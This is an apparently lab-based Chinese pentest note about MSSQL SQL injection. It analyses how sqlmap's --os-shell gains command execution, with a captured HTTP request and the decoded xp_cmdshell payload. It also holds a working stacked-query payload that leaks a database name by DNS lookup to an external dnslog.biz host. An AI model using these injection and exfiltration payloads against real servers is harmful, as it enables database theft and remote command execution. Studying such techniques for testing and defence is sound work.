 http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=(select top 1 name from sys.databases);exec('master..xp_fileexist "//'%2B@a%2B'.92e43c80.log.dnslog.biz.\\a" ')--+

​![image](assets/image-20240905182407-joonf92.png)​

## sqlmap 在mssql 执行--os-shell 抓包分析原理

使用sqlmap执行以下命令并用bp代理抓包

sqlmap -u "http://192.168.100.225/less-2.asp?id=1" --batch --dbms mssql --proxy http://127.0.0.1:8080 --os-shell --purge

1. ‍

```sql
GET /less-2.asp?id=1%3BDECLARE%20%40uhug%20VARCHAR%288000%29%3BSET%20%40uhug%3D0x70696e67202d6e203130203132372e302e302e31%3BEXEC%20master..xp_cmdshell%20%40uhug-- HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.1.6#dev (https://sqlmap.org)
Cookie: ASPSESSIONIDQSSCDRTB=JNGDBDKAMKODPPBFDLKHPKFG
Host: 192.168.100.225
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```

解码为：

id=1;<span data-type="text" style="color: var(--b3-font-color8);">DECLARE @uhug VARCHAR(8000)</span>;<span data-type="text" style="color: var(--b3-font-color11);">SET @uhug=0x70696e67202d6e203130203132372e302e302e31;</span><span data-type="text" style="color: var(--b3-font-color6);">EXEC master..xp_cmdshell @uhug</span>--

解析：

id=1;<span data-type="text" style="color: var(--b3-font-color8);">declare @uhug varchar(8000)</span>;<span data-type="text" style="color: var(--b3-font-color11);">set @uhug=ping -n 10 127.0.0.1;</span><span data-type="text" style="color: var(--b3-font-color6);">exec master..xp_cmdshell @uhug</span>--

变量的声明和赋值

<span data-type="text" style="color: var(--b3-font-color8);">declare @uhug varchar(8000)</span>;   声明最大长度8000字符的可变长字符串变量@uhug
